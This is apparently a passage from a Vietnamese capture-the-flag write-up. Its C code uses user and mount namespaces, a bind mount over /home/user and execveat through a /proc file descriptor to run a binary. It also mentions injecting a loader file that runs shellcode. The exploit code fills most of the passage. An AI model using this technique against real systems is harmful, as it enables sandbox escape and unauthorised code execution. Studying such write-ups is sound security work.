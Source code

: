 Bây giờ mình muốn mount bind `/usr/lib/zapps/build/` tới `/home/user` ( tức là file nào có sẵn trên `/home/user` rồi thì không mount qua `/usr/lib/zapps/build/` nữa ).

Ta tận dụng `open_tree` và `move_mount` để làm điều này, tuy nhiên để `move_mount` thành công thì ta phải thực hiện trên namespace mới.

```c
int main(int argc,char** argv, char** envp){
    int ret;
    int pid = fork();
    if(!pid){
        if (unshare(CLONE_NEWNS|CLONE_NEWUSER))
            perror("unshare");
        if (mount("/usr/lib/zapps/build", "/home/user", NULL, MS_BIND, NULL));
            perror("mount build");
        getchar();
        exit(0);
    }
    ...
}
```

Ở process con, ta đã có `/usr/lib/zapps/build` mount bind tới `/home/user`, bây giờ mình chỉ cần share rootfs từ process con tới process cha:


```c
int main(int argc,char** argv, char** envp){
    int ret;
    int pid = fork();
    if(!pid){
        if (unshare(CLONE_NEWNS|CLONE_NEWUSER))
            perror("unshare");
        if (mount("none", "/", NULL, MS_REC | MS_PRIVATE, NULL) < 0)
            perror("mount none /");
        if (mount("/usr/lib/zapps/build", "/home/user", NULL, MS_BIND, NULL));
            perror("mount build");
        int fd_root = open("/",O_PATH);
        if(fd_root < 0)
            perror("open /");
        printf("fd_root = %d\n",fd_root);
        getchar();
        exit(0);
    }
    sleep(5);
    char path[0x60];
    sprintf(path,"/proc/%d/fd/3",pid);
    int fd_root = open(path,O_PATH);
    printf("fd_root = %d\n",fd_root);
    syscall(SYS_execveat, fd_root, "home/user/exe", NULL, NULL, 0);
    return 0;
}
```
Trước khi chạy , tương tự bài 1, ta lại inject một file ld chạy shellcode, script tương tự bài 1.
